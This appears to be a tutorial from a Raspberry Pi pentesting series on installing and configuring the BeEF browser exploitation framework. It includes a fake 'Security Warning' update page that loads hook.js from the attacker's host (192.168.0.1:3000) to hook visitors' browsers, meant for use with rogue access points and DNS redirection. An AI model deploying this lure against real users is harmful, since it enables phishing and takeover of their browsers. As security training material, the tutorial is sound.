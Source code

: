 # BeEF on Raspberry PI

BeEF (_Browser Exploitation Framework_) is a penetration tool focused on exploiting vulnerabilities inside web browsers.

## Objective

The aim of this tutorial is to set up BeEF on Raspberry PI and to show you where you could place the `hook.js`.

- [Setup Raspberry PI](../Setup)
- [Prepare Raspberry PI](../Preparation)
- [Simple Access Point](../AccessPoint)
- [DNS Analysis](../DNSAnalysis)
- [DNS Redirection](../DNSRedirection)

## Install needed and/or optional packages

Install (_or ensure they are installed_) following packages.

```shell
# update system (optional)
$ sudo apt update -y && sudo apt upgrade -y

# install optional packages (optional)
$ sudo apt install -y vim

# install needed packages
$ sudo apt install -y ruby-full curl git build-essential openssl libreadline6-dev zlib1g zlib1g-dev libssl-dev libyaml-dev libsqlite3-0 libsqlite3-dev sqlite3 libxml2-dev libxslt1-dev autoconf libc6-dev libncurses5-dev automake libtool bison nodejs libcurl4-openssl-dev
```

## BeEF

### Install BeEF

```shell
# changer into home directory
$ cd ~

# clone git repository
$ git clone https://github.com/beefproject/beef.git

# change into cloned repository directory
$ cd beef/

# modify install script
$ vim install
```

On line 106 are two packages which are not available `gcc-9-base` and `libgcc-9-dev`. You must remove them from the file `/home/pi/beef/install`! If you have already installed all packages, you can comment this line.

```shell
...
if [ "${Distro}" = "Debian" ] || [ "${Distro}" = "Kali" ]; then
   sudo apt-get update
   # sudo apt-get install curl git build-essential openssl libreadline6-dev zlib1g zlib1g-dev libssl-dev libyaml-dev libsqlite3-0 libsqlite3-dev sqlite3 libxml2-dev libxslt1-dev autoconf libc6-dev libncurses5-dev automake libtool bison nodejs libcurl4-openssl-dev gcc-9-base libgcc-9-dev
...
```

To save a lot of time, you can add `--no-document` into command `sudo gem${RUBYSUFFIX} update --system` on line 205.

### Configure BeEF

Just change username and password on `/home/pi/beef/config.yaml`.

```shell
# modify config.yaml
$ vim config.yaml
```

Read this [Wiki](https://github.com/beefproject/beef/wiki/Configuration) for more information's.

### Start BeEF

```shell
# start BeEF
$ ./beef
```

Open in your browser the URL `http://192.168.0.1:3000/ui/panel` and login with your credentials (_you have modified in the config.yaml_).

_Note: If you follow the output inside the terminal, you will see that some other packages are required. Install them if you need them (maybe in second terminal session) and execute the BeEF command again (inside the Browser UI)._

## Prepare the spoofed domain web page

Now we place the `hook.js` inside the fake page.

Content of file `/var/www/html/index.html`.

```html
<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <title>Security Warning - with security update</title>
  <link type="text/css" rel="stylesheet" href="styles/style.css">
</head>
<body>
  <div id="warning">
    <h1>Security Warning</h1>
    <p>We have detected a serious security problem,<br /> 
       please install now the free security update!</p>
  </div>
  <div id="patch">
    <span><!-- placeholder security update --></span>
  </div>
<script type="text/javascript" src="scripts/script.js"></script>
<script src="http://192.168.0.1:3000/hook.js"></script>
</body>
</html>
```

### Test BeEF local

You can also test BeEF locally, but be careful!

```html
<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <title>local test of BeEF</title>
</head>
<body>
  <p>This is my local test site...</p>
<script src="http://[your ip of wlan0 interface]:3000/hook.js"></script>
</body>
</html>
```

## Additional

If the client has JavaScript disabled, this attack will not work.

[Go Back](../readme.md)
